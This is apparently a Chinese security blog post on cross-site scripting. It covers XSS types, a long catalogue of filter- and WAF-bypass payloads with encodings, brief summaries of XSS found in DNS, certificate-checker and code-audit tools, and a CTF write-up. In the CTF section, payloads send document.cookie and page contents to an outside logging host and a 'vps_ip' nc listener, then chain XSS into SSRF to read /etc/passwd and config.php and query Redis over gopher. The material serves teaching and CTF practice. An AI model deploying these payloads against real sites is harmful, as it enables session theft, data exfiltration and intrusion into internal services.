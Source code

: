 ```yaml
---
layout:     post
title:      xss漏洞
date:       2018-12-28
author:     Wh0ale
header-img: img/jade_by_wlop-d9n5wvp.jpg
catalog: true
tags:
    - xss
---
```


![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyp4d6xll2j20ye0dy403.jpg)

# 0x01 什么是XSS漏洞

XSS全称跨站脚本(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故缩写为XSS，比较合适的方式应该叫做跨站脚本攻击。

跨站脚本攻击是一种常见的web安全漏洞，它主要是指攻击者可以在页面中插入恶意脚本代码，当受害者访问这些页面时，浏览器会解析并执行这些恶意代码，从而达到窃取用户身份/钓鱼/传播恶意代码等行为。

## 一、 XSS分类

> 反射型（非持久型）
> 存储型（持久型）
> DOM型
> 不常见的XSS:
> mXSS 突变型XSS
> UXSS 通用型XSS
> Flash XSS
> UTF-7 XSS
> MHTML XSS
> CSS XSS
> VBScript XSS

**存储型**

存储型XSS也叫持久型XSS，存储的意思就是Payload是有经过存储的，当一个页面存在存储型XSS的时候，XSS注入成功后，那么每次访问该页面都将触发XSS。

**反射型**

反射型XSS也叫非持久型XSS，最常见的是Payload是构造在网址的某个GET参数的值里。

**DOM 型**

基于DOM的XSS有时也称为type0XSS。当用户能够通过交互修改浏览器页面中的DOM(DocumentObjectModel)并显示在浏览器上时，就有可能产生这种漏洞，从效果上来说它也是反射型XSS。通过修改页面的DOM节点形成的XSS，称之为DOMBasedXSS。

## 二、 xss bypass

### 检测过滤情况

用于有字符限制的短探测器
 `'';!--"<XSS>=&{()}`
 完全版探测器
 `';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`

### 观察输出位置

#### 1.标签之间

```
模型： <div>[xss]</div> payload： <script>alert(1)</script>或者<img src=1 onerror=alert(1)>
这些标签有：
<a> <p> <img> <body> <button> <var> <div> <object> <input> <select> <keygen> <frameset>  <embed> <svg> <video> <audio>
       
自带HtmlEncode（转义）功能的标签(RCDATA)，这是插入的javascript不会被执行，除非我们闭合掉它们。
<textarea></textarea> <title></title> <iframe></iframe> <noscript></noscript> <noframes></noframes> <xmp></xmp> <plaintext></plaintext> 其他：<math></math>也不行
```

#### 2.js标签之间

在该位置，空格被过滤，可用/**/代替空格。输出在注释中，通过换行符%0a %0d使其逃逸出来。

##### (1)不在字符串内

判断<>/是否被过滤。如果没有，那么直接插入就可以。

```
<script>
[output]
</script>
payload：</script><script>alert(1)</script>
```

##### (2)在字符串中

此时需要闭合字符串，并保证插入的JS代码符合语法规范。

```
<script>
Var x="Input";
</script>
```

 input是输出点，我们首先要闭合双引号，才能保证XSS成功。如果我们无法闭合包括字符串的引号（引号被转义），就很难利用，除非存在两个输出点或宽字节。(详见参考资料)

#### 3.输出在HTML属性内

##### (1)文本属性中

例如：`<input value="输出"> 、 <img onload="...[输出]..."> ，再比如 <body style="...[输出]...">`

**无引号包裹，直接添加新的事件属性。**

**有引号包括。首先测试引号是否可用，可用则闭合属性之后添加新的事件属性。**

> HTML的属性，如果被进行HTML实体编码(形如'&#x27)，那么HTML会对其进行自动解码，从而我们可以在属性里以HTML实体编码的方式引入任意字符，从而方便我们在事件属性里以JS的方式构造payload。当然，也可以闭合属性后，然后再执行脚本。

##### (2)src/href/action/xlink:href/autofocus/content/data 等属性

直接使用伪协议绕过。

```
javascript 伪协议： <a href=javascript:alert(2)>test</a>
data 协议执行 javascript： <a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgzKTwvc2NyaXB0Pg==>test</a>(Chrome被拦截，Firefox可以)
urlencode 版本： <a href=data:text/html;%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%2829%29%3C%2F%73%63%72%69%70%74%3E>(测试未通过)
不使用 href 的另外一种组合来执行 js： <svg><a xlink:href="javascript:alert(14)"><rect width="1000" height="1000" fill="white"/></a></svg>（均可） 或者： 
<math><a xlink:href=javascript:alert(1)>1</a></math>(Chrome不可，Firefox可以)
```

##### (3)on*事件中

 插入合乎逻辑的JS代码即可。也可以使用伪协议。

```
onload 
onclick
onunload 
onchange 
onsubmit 
onreset 
onselect 
onblur 
onfocus 
onabort 
onkeydown 
onkeypress 
onkeyup 
ondbclick 
onmouseover 
onmousemove 
onmouseout 
onmouseup 
onforminput 
onformchange 
ondrag 
ondrop
```

### 绕过waf

**单次过滤规则绕过：**`<scr<script>ipt>`
**大小写绕过：**<sCript>
**alert绕过：**可以尝试prompt和confirm
**没有斜杠：**`<IMG SRC=javascript:alert('XSS')>`
**空格被过滤：**`<img/src=""onerror=alert(2)>` `<svg/onload=alert(2)></svg>`
**长度限制时：**
 (1)`<q/oncut=alert(1)>`
 (2)

```
<script>z=’document.’</script> <script>z=z+’write(“‘</script> <script>z=z+’<script’</script> <script>z=z+’ src=ht’</script> <script>z=z+’tp://ww’</script>
<script>z=z+’w.shell’</script> <script>z=z+’.net/1.’</script> <script>z=z+’js></sc’</script>
<script>z=z+’ript>”)’</script> <script>eval_r(z)</script>
```

单引号及双引号被过滤情况：`<script>alert(/jdq/)</script> //用双引号会把引号内的内容单独作为内容 用斜杠，则会连斜杠一起回显`
 **javascript伪协议：**

```
<a href="javascript:alert(/test/)">xss</a>
<iframe src=javascript:alert('xss');height=0 width=0 /><iframe>利用iframe框架标签
```

**畸形payload：**

``` 
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
```

**括号被过滤,可以使用throw来抛出数据**

```
<a onmouseover="javascript:window.onerror=alert;throw 1">2</a>
<img src=x onerror="javascript:window.onerror=alert;throw 1">
<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29';>
```

**当=();:被过滤时：**

过滤某些关键字（如：javascript） 可以在属性中的引号内容中使用空字符、空格、TAB换行、注释、特殊的函数，将代码行隔开。比如在使用<iframe src="javascript:alert(1253)" height=0 width=0 /><iframe>时，可以用回车、Tab键将src中的内容隔开，回车的url编码为%0a,%0b;

 **拼凑法：**① 双写绕过；② 使用js定义变量z=scri, z+pt=script; ③ 两处输出点

```
<scri<!-- 第二处-->pt>;
```

无法使用href：

```
<a onmouseover="alert(document.cookie)">xxs link</a>
在chrome下，其回补全缺失的引号。因此，也可以这样写：
<a onmouseover=alert(document.cookie)>xxs link</a>
```

### 编码

JS函数（如eval，settimeout）还有就是`href= action= formaction= location= on*= name= background= poster= src= code=`这些地方，可以配合编码。此外，data属性可以base64编码。
 1.js16进制

```
<script>eval(“js+16进制加密”)</script> <script>eval("\x61\x6c\x65\x72\x74\x28\x22\x78\x73\x73\x22\x29")</script> 编码要执行的语句↓
Alert(“xss”)
```

2.js unicode

```
<script>eval("unicode加密")</script> //js unicode加密 解决alert()被过滤
<script>eval("\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029")</script>
```

3.String.fromCharCode函数（不需要任何引号，必须函数内）

```
<script>eval(String.fromCharCode编码内容))</script> <script>eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,13))</script>
```

4.jsfuck版本

```
<script>alert((+[][+[]]+[])[++[[]][+[]]]+([![]]+[])[++[++[[]][+[]]][+[]]]+([!![]]+[])[++[++[++[[]][+[]]][+[]]][+[]]]+([!![]]+[])[++[[]][+[]]]+([!![]]+[])[+[]])</script>
```

5.HTML编码

```
<img src='1' onerror='aler&#x0074;(1)'>
```

6.base64编码（仅data支持）

```
     <object data="data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cDovL3QuY24vUnE5bjZ6dT48L3NjcmlwdD4="></object>
     格式：
     Data:<mime type>,<encoded data>
     Data //协议
     <mime type> //数据类型
     charset=<charset>  //指定编码
     [;base64] //被指定的编码
     <encoded data> //定义data协议的编码
     特点：不支持IE
```



# 0x02 非基于Web的XSS注射

**PowerDNS Recursor** 

在我们的演讲中，Chris提到他在一个流行的DNS软件中发现了一个不常见的XSS，所以我决定从它开始强调网络并不总是唯一的攻击媒介。

PowerDNS Recursor是一款高端，高性能的解析名称服务器，可为至少1亿用户的DNS解析提供支持。Recursor是两个名称服务器产品之一，其主要目标是充当解析DNS服务器。


一个[详细的演练](https://blog.fortinet.com/2017/12/02/powerdns-recursor-html-script-injection-vulnerability-a-walkthrough)解释它是如何可能通过使用命令行工具挖一个DNS查询来注入XSS有效载荷：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/dig.png)



而这又在Web UI中呈现：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/powerdns.png)



**Symantec SSL Toolbox**这是我在三年前在Symantec的SSL证书测试程序中找到并报告的已修复漏洞。此[免费在线服务](https://cryptoreport.websecurity.symantec.com/checker/)用于从给定URL的x509 SSL证书中提取和显示值，信任其内容，而无需清理字段中的数据。


因此，我在不同的字段中创建了一个值为“<script> alert（document.cookie）; </ script>”的SSL证书，并将其安装在Web服务器的前面：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/symantec.png)



分析此类证书的结果是正在执行的JavaScript代码：

![ximg](https://www.websec.ca/img/three-non-web-based-xss-injections/symantec-xss.png)



**RATS（安全性粗略审计工具）**由CERN计算机安全部门开发，[RATS](https://security.web.cern.ch/security/recommendations/en/codetools/rats.shtml)是一个非常好的静态代码分析工具。我喜欢它并且已经使用它多年了。然而，最后一个版本可以追溯到2013年12月，现在可能没有维护，但不确定。


去年我在火车上很无聊，发现这个无用的XSS。RATS收到一个包含源代码的文件夹，并创建一个包含结果的HTML报告，其中还包括所分析文件的名称，因此攻击向量非常明显。我在其名称中创建了一个包含JavaScript代码的文件：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/rats.png)



分析之后，注入的JavaScript将在报告中呈现：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/rats-xss.png)



# 0x03 CTF赛题

[XSS的威力：从XSS到SSRF再到Redis](https://www.anquanke.com/post/id/156377)

## **1.xssme**

payload：

```
<svg/onload="document.location='http://vps_ip:23333'">
```

vps：

```
nc -l -vv -p 23333
```

收获flag

```
<svg/onload="document.location='http://ugelgr.ceye.io/?'+document.cookie">
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fypr96reo5j20jc07ojst.jpg)

解码后得到

```
PHPSESSID=9crkuhdqs9b1jkslebpieprr86; FLAG_XSSME=FLAG{Sometimes, XSS can be critical vulnerability <script>alert
```



## **2.xssrf leak**

xss去本地访问，再将页面内容打出来

```
<svg/onload="document.location='http://ugelgr.ceye.io/?'+btoa(document.body.innerHTML)">
```

**编码绕过**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fypreygzbrj20lz0a1dmd.jpg)

**解码后保存到本地html里打开**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprfv1be7j20re0lcmyx.jpg)

发现多了一个send request的功能，跟过去看代码发现多了一个send request的功能，跟过去看代码
[![img](https://p5.ssl.qhimg.com/t016761eb473b221e42.png)](https://p5.ssl.qhimg.com/t016761eb473b221e42.png)

没错，是多了一个request.php
那么结合题目意思，应该是有ssrf，我想应该就是利用这里的request.php了吧
那么继续去读这个页面的html

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("GET","request.php",true);
xmlhttp.send();
">
```



经过编码后发送，得到
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprjod9cbj21e6076n0h.jpg)同样解码后发现代码
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprkntdnjj21900h2jsr.jpg)应该xss的点就是在这里了
于是尝试file协议读`/etc/passwd`

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=file:///etc/passwd");
">
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprlccny8j2178182k0b.jpg)发现成功读取了`/etc/passwd`
那么我们回想到最初的文件

```
User-agent: *
Disallow: /config.php
Disallow: /you/cant/read/config.php/can/you?
Disallow: /backup.zip
```

于是直接读config.php

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=file:///var/www/html/config.php");
">
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprly0fcwj21b012en16.jpg)cool，于是我们拿到了第二个flag

```
FLAG{curl -v -o flag --next flag://in-the.redis/the?port=25566&good=luck}
```

## **3. xssrf redis**

只剩下最后一步打redis了

这里很容易就想到了gopher未授权访问打redis
上一题提示我们redis再25566端口，于是我们尝试访问一下

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=gopher://127.0.0.1:25566/_info%250a_quit");
">
```

于是愉快的打出信息，发现果然是未授权访问
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fypro47h7hj20w211o0vi.jpg)那么看看key有哪些

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_KEYS%2520*%250a_quit");
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprovnhvtj20nq0vm75o.jpg)发现了flag
然后我们尝试读取

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_get%2520flag%250a_quit");
```

发现报错
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprpnzlqij21020eaab5.jpg)发现类型错误了
那我们看看类型

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_type%2520flag%250a_quit");
```

[![img](https://p3.ssl.qhimg.com/t01c56b570a1f671daa.png)](https://p3.ssl.qhimg.com/t01c56b570a1f671daa.png)

发现是个list
那我们看看长度

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_llen%2520flag%250a_quit");
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprrfqsanj20qg0kut9v.jpg)发现是53
那我们可以愉快的读取list了

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_lrange%2520flag%25200%252053%250a_quit");
```

[![img](https://p0.ssl.qhimg.com/t016b256ff57a040832.png)](https://p0.ssl.qhimg.com/t016b256ff57a040832.png)

我们把它拼接起来

[![img](https://p2.ssl.qhimg.com/t01584c35dc674b052a.png)](https://p2.ssl.qhimg.com/t01584c35dc674b052a.png)so cool
得到最后的flag

```
FLAG{Rediswithout authentication is easy to exploit}
```











































